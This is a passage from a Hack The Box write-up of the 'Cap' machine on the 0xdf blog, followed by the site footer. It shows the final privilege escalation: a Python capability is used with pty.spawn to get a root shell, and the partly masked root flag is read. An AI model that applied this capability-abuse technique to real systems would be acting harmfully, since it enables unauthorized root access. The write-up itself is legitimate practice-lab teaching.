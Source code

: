 <p>There is a <code class="language-plaintext highlighter-rouge">cap_setgid</code> capability as well that was not set here.</p>

<p>Now using <code class="language-plaintext highlighter-rouge">pty</code> to get a shell again gives a shell as the root user:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">&gt;&gt;&gt;</span><span class="w"> </span><span class="n">pty</span><span class="p">.</span><span class="nf">spawn</span><span class="p">(</span><span class="sh">"</span><span class="s">bash</span><span class="sh">"</span><span class="p">)</span>
<span class="gp">root@cap:/var/www/html#</span><span class="w"> </span><span class="nb">id</span>
<span class="go">uid=0(root) gid=1001(nathan) groups=1001(nathan)
</span></code></pre></div></div>

<p>From there I can grab <code class="language-plaintext highlighter-rouge">root.txt</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">root@cap:/var/www/html#</span><span class="w"> </span><span class="nb">cd</span> /root/
<span class="gp">root@cap:/root#</span><span class="w"> </span><span class="nb">cat </span>root.txt
<span class="go">f766c793************************
</span></code></pre></div></div>

      </div>
    </div>
  
  </div><a class="u-url" href="/2021/10/02/htb-cap.html" hidden></a>
</article>

      </div>
    </main>
<footer class="site-footer h-card">

  <div class="wrapper">

    <h2 data-toc-skip class="footer-heading">0xdf hacks stuff</h2>

    <div class="footer-col-wrapper">
      <div class="footer-col footer-col-1">
        <ul class="contact-list">
          <li class="p-name">0xdf hacks stuff
</li><li><a class="u-email" href="mailto:0xdf.223@gmail.com">0xdf.223@gmail.com</a></li></ul>
      </div>

      <div class="footer-col footer-col-2"><ul class="social-media-list"><li><a href="https://www.twitter.com/0xdf_"><svg class="svg-icon"><use xlink:href="/assets/minima-social-icons.svg#twitter"></use></svg> <span class="username">0xdf_</span></a></li><!--<li><a href="https://mm.netsecfocus.com/nsf/messages/@oxdf"><img class="svg-icon" src="/assets/icons/mattermost-icon-128.png" alt="NSF" /><span class="username">oxdf</span></a></li>--><li><a href="https://youtube.com/channel/UChO9OAH57Flz35RRX__E25A"><svg class="svg-icon"><use xlink:href="/assets/minima-social-icons.svg#youtube"></use></svg> <span class="username">0xdf</span></a></li><li><a href="/feed.xml"><svg class="svg-icon"><use xlink:href="/assets/minima-social-icons.svg#rss"></use></svg> <span>feed</span></a></li><li class="bmc"><a href="https://app.hackthebox.com/users/profile/4935"><img class="svg-icon bmc" src="/assets/icons/htb-favicon.png" alt="HTB" /><span class="username">0xdf</span></a></li><li class="bmc"><a rel="me" href="https://infosec.exchange/@0xdf"><img class="svg-icon bmc" src="/assets/icons/mastodon.svg" alt="Mastodon" /><span class="username">@0xdf@infosec.exchange</span></a></li></ul>
</div>

      <div class="footer-col footer-col-3">
        <p>CTF solutions, malware analysis, home lab development</p>
        <link href="https://fonts.googleapis.com/css?family=Cookie"
rel="stylesheet"><a class="bmc-button" target="_blank" href="https://www.buymeacoffee.com/0xdf"><img src="https://cdn.buymeacoffee.com/buttons/bmc-new-btn-logo.svg" alt="Buy me a coffee"><span style="margin-left:15px;font-size:28px !important;">Buy me a coffee</span></a>
      </div>
    </div>

  </div>
